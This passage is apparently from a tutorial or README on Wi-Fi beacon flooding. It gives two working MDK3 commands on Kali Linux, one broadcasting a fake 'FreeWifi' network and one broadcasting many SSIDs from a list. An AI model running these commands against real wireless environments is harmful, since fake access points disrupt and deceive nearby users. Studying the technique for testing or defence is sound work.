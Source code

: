 This attack can easily be launched with MDK3 tool which comes preinstalled with Kali Linux. We simply run:
```
$ sudo mdk3 wlan0 b -n FreeWifi
$ sudo mdk3 wlan0 b -f ssid_list.txt
```
The first command will broadcast an SSID named ’FreeWifi’, while the second command
reads a list of SSIDs from the file 'ssid list.txt' and broadcasts them.

![image](https://user-images.githubusercontent.com/44478153/130040627-3ee752ba-e67e-4a96-b225-3d802f01c432.png)
